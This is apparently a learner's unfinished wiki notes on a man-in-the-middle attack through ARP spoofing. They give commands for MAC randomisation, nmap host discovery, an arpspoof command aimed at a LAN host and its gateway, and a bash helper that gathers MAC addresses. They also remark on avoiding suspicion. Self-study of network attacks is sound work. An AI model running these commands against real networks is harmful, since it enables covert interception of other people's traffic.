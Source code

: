 # TODO - Man in the Middle with ARP spoofing

Welcome again :D&#x20;

Im actually pleased of myself because Im explaining to me and Im actually understanding something LOL

## Recap

### change the MAC

```
sudo macchanger -r eth0 
```

### reverse DNS request to get all the hostname

and find the target

```
nmap -sL 192.168.1.0/24
# -sL     reverse DNS resolution (send no packet to the host, 
                only to the DNS server probably)
```

### check if host is alive

{% embed url="https://security.stackexchange.com/questions/36198/how-to-find-live-hosts-on-my-network" %}

```
nmap -sn 192.168.1.68

# -sn     disable port scan
# -sn is the same as -sP and does NOT work all the time
```

### ARP spoofing

```
sudo arpspoof -i eth0 -t 192.168.1.68 -r 192.168.1.1 
```

Now we need not to arouse suspicion

## Packet redirect

Now a method is needed to be able to not block the connection of the target host with the router.

## MAC forwarding

As if we were switches we could use MAC addresses to forward data at the data link layer (layer 2) of the OSI model.&#x20;

A script could be useful.

```
./basic_mitm 192.168.1.68 192.168.1.1
```

<details>

<summary>first thing is to gather the MAC addresses</summary>

```bash
#!/bin/bash

echo "$1"
echo "$2"

mac1=$(sudo nmap -nsP "$1" | grep MAC | awk -F\  ' { print $3 } ' )
mac2=$(sudo nmap -nsP "$2" | grep MAC | awk -F\  ' { print $3 } ' )

echo "$mac1"
echo "$mac2"
```

```
-R     Never do DNS resolution
-sn    Ping Scan - disable port scan
```

</details>

{% embed url="https://serverfault.com/questions/293786/is-there-a-tool-like-route-in-linux-to-configure-the-forwarding-entry-dst-mac" %}

{% embed url="https://en.wikipedia.org/wiki/MAC-Forced_Forwarding" %}

{% embed url="https://linux.die.net/man/8/iptables" %}

{% hint style="info" %}
iptables command has a "mac" section that could be useful
{% endhint %}

## Sources

{% embed url="https://www.cyberciti.biz/tips/iptables-mac-address-filtering.html" %}

{% embed url="https://explainshell.com/explain?cmd=nmap+-sP" %}
